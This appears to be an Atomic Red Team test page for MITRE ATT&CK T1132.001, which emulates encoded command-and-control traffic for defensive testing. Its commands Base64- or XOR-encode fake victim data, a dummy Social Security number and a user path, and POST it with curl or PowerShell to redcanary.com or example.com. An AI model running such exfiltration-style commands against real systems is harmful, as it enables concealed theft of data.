 # T1132.001 - Data Encoding: Standard Encoding

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1132/001)

<blockquote>Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding)(Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)

- [Atomic Test #2 - Base64 Encoded data (freebsd)](#atomic-test-2---base64-encoded-data-freebsd)

- [Atomic Test #3 - XOR Encoded data.](#atomic-test-3---xor-encoded-data)

<br/>

## Atomic Test #1 - Base64 Encoded data.

Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux

**auto_generated_guid:** 1164f70f-9a88-4dff-b9ff-dc70e7bf0c25

#### Inputs:

| Name            | Description                                                         | Type   | Default Value    |
| --------------- | ------------------------------------------------------------------- | ------ | ---------------- |
| destination_url | Destination URL to post encoded data.                               | url    | redcanary.com    |
| base64_data     | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE= |

#### Attack Commands: Run with `sh`!

```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```

<br/>
<br/>

## Atomic Test #2 - Base64 Encoded data (freebsd)

Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** Linux

**auto_generated_guid:** 2d97c626-7652-449e-a986-b02d9051c298

#### Inputs:

| Name            | Description                                                         | Type   | Default Value    |
| --------------- | ------------------------------------------------------------------- | ------ | ---------------- |
| destination_url | Destination URL to post encoded data.                               | url    | redcanary.com    |
| base64_data     | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE= |

#### Attack Commands: Run with `sh`!

```sh
echo -n 111-11-1111 | b64encode -r -
curl -XPOST #{base64_data}.#{destination_url}
```

#### Dependencies: Run with `sh`!

##### Description: Requires curl

##### Check Prereq Commands:

```sh
if [ -x "$(command -v curl)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
pkg install -y curl
```

<br/>
<br/>

## Atomic Test #3 - XOR Encoded data.

XOR encodes the data with a XOR key.
Reference - https://gist.github.com/loadenmb/8254cee0f0287b896a05dcdc8a30042f

**Supported Platforms:** Windows

**auto_generated_guid:** c3ed6d2a-e3ad-400d-ad78-bbfdbfeacc08

#### Inputs:

| Name            | Description                                         | Type   | Default Value                               |
| --------------- | --------------------------------------------------- | ------ | ------------------------------------------- |
| destination_url | Destination URL to post encoded data.               | url    | example.com                                 |
| plaintext       | Plain text mimicking victim data sent to C2 server. | string | Path&#92;n----&#92;nC:&#92;Users&#92;victim |
| key             | XOR key used for encoding the plaintext.            | string | abcdefghijklmnopqrstuvwxyz123456            |

#### Attack Commands: Run with `powershell`!

```powershell
$plaintext = ([system.Text.Encoding]::UTF8.getBytes("#{plaintext}"))
$key = "#{key}"
$cyphertext =  @();
for ($i = 0; $i -lt $plaintext.Count; $i++) {
 $cyphertext += $plaintext[$i] -bxor $key[$i % $key.Length];
}
$cyphertext = [system.Text.Encoding]::UTF8.getString($cyphertext)
[System.Net.ServicePointManager]::Expect100Continue = $false
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $cyphertext -DisableKeepAlive
```

<br/>
